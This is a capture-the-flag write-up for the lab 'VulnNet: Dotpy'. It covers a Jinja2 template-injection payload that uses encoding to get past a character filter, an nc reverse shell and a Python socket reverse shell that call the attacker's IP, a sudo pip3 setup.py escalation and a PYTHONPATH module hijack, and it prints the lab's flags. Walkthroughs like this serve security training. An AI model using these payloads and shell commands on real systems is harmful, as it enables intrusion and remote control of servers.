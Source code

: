 > Vulnet: Dotpy

# Rustscan

rustscan -a $IP --ulimit=50000 -- -sC -sV -Pn -A | tee rustscan.log


```
8080/tcp open  http    syn-ack Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.50.167:8080/login
```

Looking at dirb we got login, logout. So I created an account `testuser`. And tried to access `robots.txt`. And it gave 403 status error code.

# 403 Error

```
INVALID CHARACTERS DETECTED
Your request has been blocked.
```

And next I tried to access an unavailable page `/test` we are given 404 error!

# 404 Error

```

SORRY!
The page you’re looking for was not found.
No results for test => the /test directory is echoed
```

Hmm! Looks like Server Side Template Injection. Googling through PayloadAllTheThings we can get a payload `{{7*7}}`.
Accessing `http://10.10.50.167:8080/%7B%7B7*7%7D%7D` we are returned with `49`. But while accessing `http://10.10.50.167:8080/%7B%7B7*'7'%7D%7D` and we are returned with `7777777`. And from refering a medium article we can infer that it is Jinja2 template engine.

**Note: Actually we have to try most payloads and got twig to be woking. Refer `https://hackerone.com/reports/125980`**

PayloadAllTheThings has a list of exploits fot Jinja2. Let's try to dump all classes `{{ [].class.base.subclasses() }}`. And we are prompted with an error.

```
INVALID CHARACTERS DETECTED
Your request has been blocked.
```

So some characters are blacklisted. Looks like these special characters `[]`, `.` and `_` are blacklisted. And we have an payload for this too in PayloadAllTheThings. 

## Payload

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

It didn't work but then after URLencoding it I got it working!

# Working Payload

```
http://10.10.50.167:8080/%7b%7b%72%65%71%75%65%73%74%7c%61%74%74%72%28%27%61%70%70%6c%69%63%61%74%69%6f%6e%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%6c%6f%62%61%6c%73%5c%78%35%66%5c%78%35%66%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%65%74%69%74%65%6d%5c%78%35%66%5c%78%35%66%27%29%28%27%5c%78%35%66%5c%78%35%66%62%75%69%6c%74%69%6e%73%5c%78%35%66%5c%78%35%66%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%65%74%69%74%65%6d%5c%78%35%66%5c%78%35%66%27%29%28%27%5c%78%35%66%5c%78%35%66%69%6d%70%6f%72%74%5c%78%35%66%5c%78%35%66%27%29%28%27%6f%73%27%29%7c%61%74%74%72%28%27%70%6f%70%65%6e%27%29%28%27%69%64%27%29%7c%61%74%74%72%28%27%72%65%61%64%27%29%28%29%7d%7d%0a
```

# Result  

```
uid=1001(web) gid=1001(web) groups=1001(web) 
```

Let's try to get a reverse shell. But we can't get it working so we can encode the payload to hex and then URLEncode it. 

## Reverse shell

```
mkfifo /tmp/p; nc 10.8.107.21 5555 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

## Hexed payload

```
\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x70\x3b\x20\x6e\x63\x20\x31\x30\x2e\x38\x2e\x31\x30\x37\x2e\x32\x31\x20\x35\x35\x35\x35\x20\x30\x3c\x2f\x74\x6d\x70\x2f\x70\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x20\x2f\x74\x6d\x70\x2f\x70\x20\x32\x3e\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x70
```

## Final Payload

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x70\x3b\x20\x6e\x63\x20\x31\x30\x2e\x38\x2e\x31\x30\x37\x2e\x32\x31\x20\x35\x35\x35\x35\x20\x30\x3c\x2f\x74\x6d\x70\x2f\x70\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x20\x2f\x74\x6d\x70\x2f\x70\x20\x32\x3e\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x70')|attr('read')()}}
```

And finally URL encoding it we got a shell as `web`.

# Priv. Esc

sudo -l

```
User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

Let's create a directory in /tmp and put a python reverse shell in a file called `setup.py`.

# Steps

1. mkdir /tmp/shell
2. echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.107.21",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > setup.py
3. sudo -u system-adm /usr/bin/pip3 install /tmp/shell

And we are in as `system-adm`.

# user.txt

```
THM{91c7547864fa1314a306f82a14cd7fb4}
```

# Privilege Escalation

sudo -l

```
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

cat /opt/backup.py 

```
from datetime import datetime
from pathlib import Path
import zipfile => We can try to create a zipfile.py in /tmp and try to 
```

## Steps

1. echo "import pty; pty.spawn("/bin/bash")" > tmp/zipfile.py
2. sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py

We are in as root!!!

# root.txt

```
THM{734c7c2f0a23a4f590aa8600676021fb}
```